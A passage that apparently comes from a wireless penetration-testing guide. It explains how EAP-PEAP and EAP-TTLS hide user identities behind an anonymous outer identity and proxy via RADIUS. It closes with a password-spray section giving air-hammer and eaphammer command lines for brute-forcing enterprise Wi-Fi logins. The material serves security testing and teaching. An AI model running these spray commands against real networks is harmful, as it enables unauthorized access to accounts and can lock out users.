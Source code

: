 * _**EAP-Identity = anonymous@realm\_x**_

> In this example, users belonging to different realms hide their own identity but indicate which realm they belong to so that the first hop RADIUS server may proxy the EAP-PEAP or EAP-TTLS requests to RADIUS servers in their home realms which will act as the PEAP or TTLS server. The first hop server acts purely as a RADIUS relay node.
>
> Alternatively, the first hop server may act as the EAP-PEAP or EAP-TTLS server and either process the protected authentication method or proxy it to another server. This option may be used to configure different policies for different realms.

In EAP-PEAP, once the PEAP server and the PEAP client establish the TLS tunnel, the PEAP server generates an EAP-Identity request and transmits it down the TLS tunnel. The client responds to this second EAP-Identity request by sending an EAP-Identity response containing the user’s true identity down the encrypted tunnel. This prevents anyone eavesdropping on the 802.11 traffic from discovering the user’s true identity.

EAP-TTLS works slightly differently. With EAP-TTLS, the client typically authenticates via PAP or CHAP protected by the TLS tunnel. In this case, the client will include a User-Name attribute and either a Password or CHAP-Password attribute in the first TLS message sent after the tunnel is established.

With either protocol, the PEAP/TTLS server learns the user’s true identity once the TLS tunnel has been established. The true identity may be either in the form _**user@realm**_ or simply _**user**_. If the PEAP/TTLS server is also authenticating the _**user**_, it now knows the user’s identity and proceeds with the authentication method being protected by the TLS tunnel. Alternatively, the PEAP/TTLS server may forward a new RADIUS request to the user’s home RADIUS server. This new RADIUS request has the PEAP or TTLS protocol stripped out. If the protected authentication method is EAP, the inner EAP messages are transmitted to the home RADIUS server without the EAP-PEAP or EAP-TTLS wrapper. The User-Name attribute of the outgoing RADIUS message contains the user’s true identity – not the anonymous identity from the User-Name attribute of the incoming RADIUS request. If the protected authentication method is PAP or CHAP (supported only by TTLS), the User-Name and other authentication attributes recovered from the TLS payload are placed in the outgoing RADIUS message in place of the anonymous User-Name and TTLS EAP-Message attributes included in the incoming RADIUS request.

### EAP-Bruteforce (password spray)

If the client is expected to use a **username and password** (notice that **EAP-TLS won't be valid** in this case), then you could try to get a **list** a **usernames** (see next part) and **passwords** and try to **bruteforce** the access using [**air-hammer**](https://github.com/Wh1t3Rh1n0/air-hammer)**.**

```bash
./air-hammer.py -i wlan0 -e Test-Network -P UserPassword1 -u usernames.txt
```

You could also do this attack using `eaphammer`:

```bash
./eaphammer --eap-spray \
	--interface-pool wlan0 wlan1 wlan2 wlan3 wlan4 \
	--essid example-wifi \
	--password bananas \
	--user-list users.txt
```

